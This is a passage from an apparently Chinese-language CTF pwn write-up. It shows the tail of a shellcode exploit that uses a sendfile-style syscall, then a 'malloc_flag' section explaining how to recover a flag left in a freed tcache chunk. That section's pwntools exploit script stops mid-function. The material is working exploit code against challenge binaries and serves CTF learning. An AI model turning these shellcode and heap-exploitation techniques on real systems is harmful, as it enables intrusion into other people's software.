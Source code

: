 ```python
mov rsi, 3
push 0
mov rdx, rsp
mov r10, 0x100
push 0x28
pop rax
syscall

mov rax,1

'''
,arch="amd64")
sd(shellcode)
ru(b"}")
ia()
```

## malloc_flag

> 不懂为什么这题就只有30多解 

- 读取了flag而且写入了chunk中再把chunk free了 这个free chunk就进入了tcache 我们直接malloc一个大小一样的chunk 然后输出 就可以获取flag

```python
from pwn import *
# context(os='linux', arch='mips',endian="little", log_level='debug')
context(os='linux', arch='amd64', log_level='debug')
# context(os='linux', arch='amd64')
context.terminal = ['byobu', 'sp', '-h']


file_name = "./vuln"
url = ""
port = 52689

# elf = ELF(file_name)
# p= process(file_name)
# p = gdb.debug(file_name,"b *main+516")
p = remote(url,port)

sd = lambda s : p.send(s)
sl = lambda s : p.sendline(s)
sa = lambda n,s : p.sendafter(n,s)
sla = lambda n,s : p.sendlineafter(n,s)
rc = lambda n : p.recv(n)
rl = lambda  : p.recvline()
ru = lambda s : p.recvuntil(s)
ra = lambda : p.recvall()
ia = lambda : p.interactive()
uu32 = lambda data : u32(data.ljust(4, b'\x00'))
uu64 = lambda data : u64(data.ljust(8, b'\x00'))
def recv_menu():
    ru(bytearray([0xE8, 0xAF, 0xB7, 0xE8, 0xBE, 0x93, 0xE5, 0x85, 0xA5, 0xE9, 0x80, 0x89, 0xE9, 0xA1, 0xB9, 0x3A, 0x20]))
def add(name,size):
    recv_menu()
    sl(b"1")
    # 请输入名字:
    ru(bytearray([0xE8, 0xAF, 0xB7, 0xE8, 0xBE, 0x93, 0xE5, 0x85, 0xA5, 0xE5, 0x90, 0x8D, 0xE5, 0xAD, 0x97, 0x3A, 0x20]))
    sl(str(name).encode())
    # 请输入大小 (十进制或十六进制):
```